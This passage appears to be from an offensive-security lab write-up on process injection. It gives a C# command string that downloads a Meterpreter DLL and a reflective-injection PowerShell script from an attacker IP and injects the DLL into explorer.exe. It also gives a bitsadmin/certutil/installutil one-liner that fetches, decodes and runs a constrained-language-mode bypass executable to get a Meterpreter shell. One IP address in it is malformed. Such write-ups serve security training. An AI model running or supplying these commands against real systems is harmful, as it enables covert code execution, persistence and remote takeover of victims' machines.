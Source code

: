 ## Process Injection
Even though, we can get a reverse shell, we need to inject into a process like explorer.exe for persistence.
We will be, once again, using the Invoke-ReflectivePEInjection.ps1 script for this.

For this, we will use the same code in Visual Studio as for our CLM bypass executable, but edit the cmd string to the following:
```csharp
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.219/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.49.291/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

Compiling and executing the code gives us an executable which we can execute similar to the last section, and this will give us a shell in explorer.exe as follows:
```cmd
bitsadmin /Transfer myJob2 http://192.168.49.219/CLMByDLLinj-b64.txt C:\Windows\Tasks\enc.txt && certutil -decode C:\Windows\Tasks\enc.txt C:\Windows\Tasks\CLMByDLLinj.exe && del C:\Windows\Tasks\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\CLMByDLLinj.exe
```

Running the command gives us a meterpreter shell.

